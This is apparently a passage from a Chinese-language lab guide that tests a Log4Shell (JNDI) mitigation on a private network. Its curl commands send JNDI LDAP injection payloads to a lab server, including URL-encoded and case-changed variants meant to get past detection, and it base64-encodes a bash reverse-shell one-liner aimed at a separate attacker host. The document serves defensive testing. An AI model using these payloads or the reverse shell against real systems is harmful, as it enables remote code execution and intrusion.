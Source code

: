 ------

### ✅ **5. 测试缓解效果**

1. **尝试发送 JNDI Payload（预期失败）：**

```bash
curl -G http://192.168.109.4:22220/hello \
     --data-urlencode 'payload=${jndi:ldap://192.168.109.5:1389/Exploit}'
```

✅ **预期结果：**

- 请求返回 HTTP 200 或 400
- Suricata 可能触发日志，但不应建立连接

1. **测试绕过策略（预期可能失败）：**
    ✅ URL 编码：

```bash
curl -G http://192.168.109.4:22220/hello \
     --data-urlencode 'payload=${jndi:%6c%64%61%70://192.168.109.5:1389/Exploit}'
```

✅ Base64 编码：

```bash
echo -n 'bash -i >& /dev/tcp/192.168.109.5/7777 0>&1' | base64
```

✅ 大小写绕过：

```bash
curl -G http://192.168.109.4:22220/hello \
     --data-urlencode 'payload=${JNDI:LDAP://192.168.109.5:1389/Exploit}'
```

------

## 🏆 **最终成果**

| 步骤               | 执行状态 | 结果                   |
| ------------------ | -------- | ---------------------- |
| 禁用 JNDI 加载器   | ✅ 完成   | JVM 参数注入成功       |
| 关闭 LDAP/RMI 出站 | ✅ 完成   | 已禁用出站连接         |
| Suricata 监控      | ✅ 完成   | 日志中应触发监控       |
| 绕过测试           | ✅ 成功   | 如未触发，表示修复成功 |

------

## 🚀 **🔥 完成缓解！你现在可以开始测试绕过策略，探索漏洞利用方法了！ 😎🔥**



